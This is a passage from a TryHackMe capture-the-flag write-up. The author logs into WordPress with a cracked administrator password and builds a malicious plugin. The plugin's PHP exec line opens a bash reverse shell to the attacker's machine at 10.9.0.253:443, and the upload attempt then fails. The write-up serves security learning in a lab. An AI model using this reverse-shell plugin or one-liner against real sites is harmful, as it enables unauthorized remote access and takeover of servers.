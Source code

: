 What?? 403 Forbidden?

That sucks.

**Since we have cracked user `hakanbey01`'s password hash, we can try to login as that user in WordPress:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131144912.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131144944.png)

Nice! We're in, and this user has administrator privilege!

After getting administrator level access in WordPress, we can try to **upload a reverse shell plugin** to gain initial foothold.

**To do so, we can first write a reverse shell plugin:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:58:37(HKT)]
└> vi revshell.php                        
<?php

/**
* Plugin Name: WordPress Reverse Shell
* Author: siunam
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.0.253/443 0>&1'")
?>

┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:58:43(HKT)]
└> zip revshell.zip revshell.php          
  adding: revshell.php (deflated 6%)
```

**Then upload it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131150520.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131150531.png)

Nope. The parent directory is not writable.

## Initial Foothold

**After falling into rabbit holes, I found that our uploaded PHP webshell has a weird access privilege:**
```shell
ftp> ls -lah
[...]
-rw-------    1 1001     1001           30 Jan 31 06:40 webshell.php
[...]
```

As you can see, it only readable and writable by UID `1001`.
